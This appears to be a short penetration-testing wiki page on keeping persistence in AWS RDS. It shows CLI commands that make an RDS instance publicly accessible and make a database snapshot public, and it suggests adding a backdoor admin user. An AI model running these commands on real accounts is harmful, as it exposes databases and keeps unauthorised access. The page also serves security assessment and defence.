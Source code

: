 # AWS - RDS Persistence

## RDS

For more information check:

[[../aws-services/aws-relational-database-rds-enum.md]]

### Make instance publicly accessible: `rds:ModifyDBInstance`

An attacker with this permission can **modify an existing RDS instance to enable public accessibility**.

```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```

### Create an admin user inside the DB

An attacker could just **create a user inside the DB** so even if the master users password is modified he **doesn't lose the access** to the database.

### Make snapshot public

```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```

